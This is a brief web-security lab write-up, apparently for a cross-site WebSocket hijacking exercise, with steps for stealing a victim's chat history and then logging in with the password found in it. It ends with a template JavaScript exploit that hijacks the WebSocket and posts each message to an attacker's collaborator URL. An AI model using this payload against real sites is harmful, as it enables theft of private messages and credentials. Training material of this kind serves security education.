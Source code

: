 **Objective**
Exfiltrate the victim's chat history

**Point of Entry**
Live chat associated WebSocket requests.

**Execution**
- Open Live chat and send a few messages. Then reload page.
- Notice under WebSocket history that reloading page issues a READY message to server to retrieve recent chat history.
- Go to HTTP history to find the WebSocket handshake request.
- Host the template JavaScript exploit on Exploit server. Exfiltrating the chat history will require a collaborator payload.
- Deliver exploit to victim and view their HTTP and DNS requests by polling in Collaborator. 
- The HTTP requests contain sent messages, which include Carlos's password. Login using password to solve the lab.

**Template Exploit**
`<script> var ws = new WebSocket('wss://your-websocket-url'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`